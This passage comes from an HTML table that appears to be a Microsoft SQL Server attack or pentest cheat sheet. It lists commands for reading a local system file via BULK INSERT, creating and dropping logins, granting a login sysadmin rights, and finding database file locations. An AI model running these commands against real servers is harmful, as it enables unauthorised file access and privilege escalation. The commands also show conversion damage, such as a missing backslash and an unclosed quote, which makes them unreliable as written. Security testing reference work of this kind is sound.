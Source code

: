 <br>
RECONFIGURE; — priv

</td>
</tr>
<tr>
<td>Local File Access</td>
<td>CREATE TABLE mydata (line varchar(8000));

<br>
BULK INSERT mydata FROM ‘c:boot.ini’;

<br>
DROP TABLE mydata;

</td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT HOST_NAME()</td>
</tr>
<tr>
<td>Create Users</td>
<td>EXEC

<a href="http://msdn2.microsoft.com/en-us/library/ms173768.aspx">sp_addlogin</a> ‘user’, ‘pass’; — priv

</td>
</tr>
<tr>
<td>Drop Users</td>
<td>EXEC

<a href="http://msdn2.microsoft.com/en-us/library/ms189767.aspx">sp_droplogin</a> ‘user’; — priv

</td>
</tr>
<tr>
<td>Make User DBA</td>
<td>EXEC

<a href="http://msdn2.microsoft.com/en-us/library/ms186320.aspx">master.dbo.sp_addsrvrolemember</a> ‘user’, ‘sysadmin; — priv

</td>
</tr>
<tr>
<td>Location of DB files</td>
<td>EXEC sp_helpdb master; –location of master.mdf

<br>
EXEC sp_helpdb pubs; –location of pubs.mdf

</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>northwind
